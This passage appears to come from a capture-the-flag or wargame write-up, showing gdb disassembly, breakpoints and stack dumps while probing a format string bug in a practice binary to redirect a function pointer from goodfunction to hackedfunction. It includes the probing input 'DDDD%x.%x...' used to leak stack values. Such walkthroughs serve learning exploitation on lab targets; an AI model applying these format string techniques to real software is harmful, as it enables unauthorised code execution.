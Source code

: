 ``` shell
   0x08048685 <+184>:   mov    eax,DWORD PTR [ebp-0x8c]
   0x0804868b <+190>:   call   eax
   0x0804868d <+192>:   leave
   0x0804868e <+193>:   ret
End of assembler dump.
(gdb) b *0x08048680
Breakpoint 2 at 0x8048680
(gdb) n
Single stepping until exit from function vuln,
which has no line number information.
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd66c)
I guess you want to come to the hackedfunction...

Breakpoint 2, 0x08048680 in vuln ()
(gdb) x/20wx $esp
0xffffd650:     0xffffd670      0x00000080      0xffffd8e4      0x08048238
0xffffd660:     0xffffd6c8      0xf7ffda94      0x00000000      0x080486e0
0xffffd670:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd680:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd690:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb) x/x 0x080486e0
0x80486e0 <goodfunction>:       0x55
(gdb) x/x *hackedfunction
0x8048706 <hackedfunction>:     0x55
(gdb) x/4wx $esp
0xffffd650:     0xffffd670      0x00000080      0xffffd8e4      0x08048238
(gdb) x/s 0xffffd8e4
0xffffd8e4:     "DDDD%x.%x.%x.%x.%x.%x.%x"
(gdb) p 0x00000080
$3 = 128
```

Before the call to `snprintf` we can see the arguments being placed on the stack. We'll want to, somehow, overwrite `$ebp-0x8c`.

``` shell
0x08048685 <+184>:   mov    eax,DWORD PTR [ebp-0x8c]
0x0804868b <+190>:   call   eax
(gdb) p/x $ebp-0x8c
$4 = 0xffffd66c
(gdb) ni
0x08048685 in vuln ()
(gdb) x/4wx $esp
0xffffd650:     0xffffd670      0x00000080      0xffffd8e4      0x08048238
(gdb) x/s 0xffffd670
0xffffd670:     "DDDD8048238.ffffd6c8.f7ffda94.0.80486e0.44444444.38343038"
(gdb) x/x *0xffffd66c
0x80486e0 <goodfunction>:       0x55
```
